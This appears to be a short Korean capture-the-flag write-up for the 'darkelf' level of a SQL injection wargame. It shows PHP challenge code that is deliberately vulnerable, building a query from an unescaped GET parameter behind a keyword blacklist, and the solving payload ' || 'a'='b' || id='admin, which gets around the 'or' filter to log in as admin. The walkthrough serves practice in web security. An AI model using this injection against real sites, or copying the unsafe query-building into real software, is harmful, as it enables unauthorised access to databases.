

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
query : select id from prob_darkelf where id='guest' and pw=''
이번에도 id=guset조건을 거짓으로 만들고 id=‘admin’인 조건을 만든 후 or 연산자만 우회해주면 된다.

https://los.eagle-jump.org/darkelf_6~5.php?pw=' || 'a'='b' || id='admin